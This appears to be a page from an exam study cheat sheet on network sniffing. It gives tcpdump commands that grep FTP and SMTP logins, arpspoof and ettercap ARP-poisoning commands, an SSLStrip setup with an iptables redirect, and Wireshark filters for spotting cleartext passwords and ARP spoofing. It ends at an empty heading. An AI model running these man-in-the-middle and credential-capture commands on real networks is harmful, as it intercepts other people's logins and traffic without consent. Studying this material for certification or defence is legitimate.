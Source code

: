 **Capture FTP Credentials

```
  tcpdump -i eth0 -nn -v port 21 | grep -i 'USER\|PASS'
```

### Active Sniffing (MITM Attacks)

ARP Poisoning
```
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

```
ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//
```

SSLStrip Attack

```
sslstrip -a -f -k
```

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### Wireshark Filters (Exam MUST KNOW)

Find Cleartext Passwords

```
http.request.method == "POST" && http.file_data contains "password"
```

Detect ARP Spoofing

```
arp.duplicate-address-frame
```

VoIP Calls

```
udp.port == 5060 || udp.port == 10000-20000
```

### Protocol Analysis

DNS Query Monitoring
```
tcpdump -i eth0 -nn 'udp port 53'
```

SMTP Email Capture

```
tcpdump -i eth0 -nn -X -s0 'tcp port 25' | grep -i 'AUTH PLAIN\|MAIL FROM\|RCPT TO'
```

### Advanced Sniffing
